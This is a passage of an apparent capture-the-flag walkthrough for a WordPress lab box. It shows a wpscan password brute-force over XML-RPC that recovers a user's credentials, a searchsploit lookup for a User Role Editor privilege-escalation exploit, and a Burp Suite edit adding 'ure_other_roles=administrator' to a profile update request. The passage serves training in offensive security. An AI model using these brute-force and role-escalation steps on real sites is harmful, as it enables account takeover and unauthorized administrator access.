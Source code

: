 ```bash
─$ wpscan -U 'jack,wendy,danny' -P /usr/share/wordlists/fasttrack.txt --url jack.thm

[+] Performing password attack on Xmlrpc against 3 user/s
[SUCCESS] - wendy / changelater                                                                                                                            
Trying danny / starwars Time: 00:00:54 <===========================================================                     > (646 / 868) 74.42%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: wendy, Password: changelater
```

## Exploitiation 
Use the credentials found for wendy to log in to the `wp-admin` page. Search in the metasplitable for WordPress privilege escalation exploits

![image](https://github.com/user-attachments/assets/53f7ebec-b2e2-4b19-9d9b-5b5376cc187c)

```bash
searchsploit wordpress privilege 
------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                             |  Path
------------------------------------------------------------------------------------------------------------------------- 
WordPress Plugin User Role Editor < 4.25 - Privilege Escalation                            | php/webapps/44595.rb
```

we will use **User Role Editor** plugin. Copy the script to your current working directory.

```bash
searchsploit -m 44595.rb        
  Exploit: WordPress Plugin User Role Editor < 4.25 - Privilege Escalation
      URL: https://www.exploit-db.com/exploits/44595
     Path: /usr/share/exploitdb/exploits/php/webapps/44595.rb
    Codes: N/A
 Verified: False
File Type: Ruby script, ASCII text, with very long lines (987)
Copied to: /home/kali/Documents/THM/jack/44595.rb

```
In the script under the Send HTTP POST method, that is what it will send when we press **update profile**.

![Screenshot_2025-06-26_07_28_07](https://github.com/user-attachments/assets/7edab6c5-9bb0-4592-ba95-cda9dc563f9a)

Use **Burp Suite** to intercept the send request and edit it. 

![Screenshot_2025-06-26_07_34_08](https://github.com/user-attachments/assets/1c295c71-39c4-492f-8bff-f74fa5e987bd)

Add `ure_other_roles=administrator` field to the POST request. Then click **forward**.
